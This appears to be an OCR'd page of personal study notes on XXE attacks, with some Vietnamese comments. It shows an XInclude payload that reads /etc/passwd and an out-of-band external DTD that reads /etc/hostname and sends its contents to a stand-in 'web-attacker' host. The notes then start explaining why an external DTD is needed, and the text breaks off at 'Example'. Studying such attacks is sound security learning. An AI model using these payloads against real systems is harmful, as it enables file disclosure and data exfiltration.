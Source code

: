 ```nasm
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</document>
**<document xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</document>**
// include tài liệu vào , trong trường hợp ko thêm được DTD 
// khi tắt external DTD => tất luôn Xinclude 
```

- `OUT OF BAND`

Extract value of file system by `oob` technique 

Hosting a file call `DTD` file type contains malicious xml code 

```nasm
<!ENTITY % file SYSTEM "file:///etc/hostname" > 
<!ENTITY % container "<!ENTITY &#x25; extract SYSTEM 'http://web-attacker?data=%file;'> ">
%container;
%extract;
```

Explain

1. **Why do we have to store malicious code on outside < on server > instead of having the definition in the XML file ?** 

⇒ 

- First ,  I see result in `StackOverFLow`

![Untitled](XXE%20e4979216a484461395b9d737f77ba690/Untitled%201.png)

Meaning is :  If i would have to use parameter entity inside other parameter then using force `External DTD`

Example  :
